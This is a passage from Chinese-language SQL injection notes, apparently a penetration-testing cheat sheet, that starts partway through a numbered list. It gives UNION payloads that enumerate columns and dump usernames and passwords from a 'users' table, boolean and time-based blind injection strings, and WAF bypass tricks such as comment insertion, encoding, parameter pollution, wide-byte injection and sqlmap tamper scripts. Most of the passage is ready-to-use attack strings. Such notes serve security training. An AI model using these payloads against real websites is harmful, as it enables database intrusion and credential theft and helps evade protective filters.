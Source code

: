     *   **查列名:** `union select 1, group_concat(column_name), 3 from information_schema.columns where table_schema=database() and table_name='users' --+`
    *   **查数据:** `union select 1, group_concat(username, 0x3a, password), 3 from users --+` (0x3a 是冒号)
6.  **盲注探测:**
    *   如果UNION和报错都不可用，尝试布尔盲注或时间盲注。
    *   **布尔:** 构造 `and length(database())=5 --+` 等条件，观察页面真假反馈。
    *   **时间:** 构造 `and if(length(database())=5, sleep(5), 0) --+` 等条件，观察响应时间。
7.  **WAF/过滤绕过:**
    *   大小写混合 (`SeLeCt`)
    *   替换关键字 (`union select` -> `union/**/select`)
    *   编码 (URL编码, Hex编码, Unicode编码)
    *   等价函数/符号 (`and` -> `&&`, `=` -> `like`, `substr` -> `mid`)
    *   内联注释 (`/*! ... */`)
    *   HTTP参数污染 (提交同名参数)
    *   宽字节注入
    *   使用 `sqlmap --tamper`。

[[SQLMAP]]